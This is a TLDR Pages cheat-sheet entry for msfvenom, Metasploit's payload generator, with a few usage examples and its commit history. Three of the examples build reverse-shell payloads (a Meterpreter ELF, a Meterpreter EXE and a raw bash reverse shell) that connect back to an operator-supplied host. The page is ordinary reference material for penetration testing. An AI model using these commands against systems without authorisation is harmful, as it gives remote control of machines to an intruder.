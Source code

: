```yaml
---
author: ['Fazle Arefin', 'Jonathan']
date: 1653890310
title: "msfvenom, TLDR Pages"
description: "msfvenom, Manually generate payloads for metasploit."
categories: "common"
---
```

> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- List payloads:

```bash
msfvenom -l payloads
```

- List formats:

```bash
msfvenom -l formats
```

- Show payload options:

```bash
msfvenom -p payload --list-options
```

- Create an ELF binary with a reverse TCP handler:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f elf -o path/to/binary
```

- Create an EXE binary with a reverse TCP handler:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f exe -o path/to/binary.exe
```

- Create a raw bash with a reverse TCP handler:

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=local_ip LPORT=local_port -f raw
```
List of changes to this documentation


Author | Description | ISO 8601 Date | GitHub link
------|-----|-----|-----
[Fazle Arefin](mailto:fazlearefin@users.noreply.github.com) | msfvenom: add raw example (#8095) * Use built in output option in msfvenom * Add msfvenom example to generate bash reverse tcp handler [...] | 2022-05-30T07:58:30 | [cf7215e832ab](https://github.com/tldr-pages/tldr/commit/cf7215e832aba55f8ace42e5418b5c8bf94c14af)
[Jonathan](mailto:1909202+Jab2870@users.noreply.github.com) | msfvenom: add page (#3476) | 2019-12-29T04:06:13 | [37ffdcb0a799](https://github.com/tldr-pages/tldr/commit/37ffdcb0a799a3f9b47e2bb73d5f0208caedeefe)

